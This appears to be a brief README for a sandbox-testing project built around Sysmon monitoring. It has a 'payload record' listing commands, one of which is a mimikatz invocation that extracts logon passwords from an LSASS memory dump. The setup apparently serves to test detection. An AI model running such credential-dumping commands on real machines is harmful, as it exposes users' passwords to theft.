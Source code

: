 # sandbox_test

- sand.py: code
- Sysmon64.exe: sysmon
- sysmonconfig.xml: config

#### note: put Sysmon64.exe and sysmonconfig.xml in C:\Users\\{Username}\Documents

##### payload record:
SCHTASKS /Create /SC DAILY /TN "Open Notepad" /TR "notepad.exe" /ST 12:00
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit
copy %USERPROFILE%\\Desktop\\SandboxFiles\\sysmonconfig.xml .
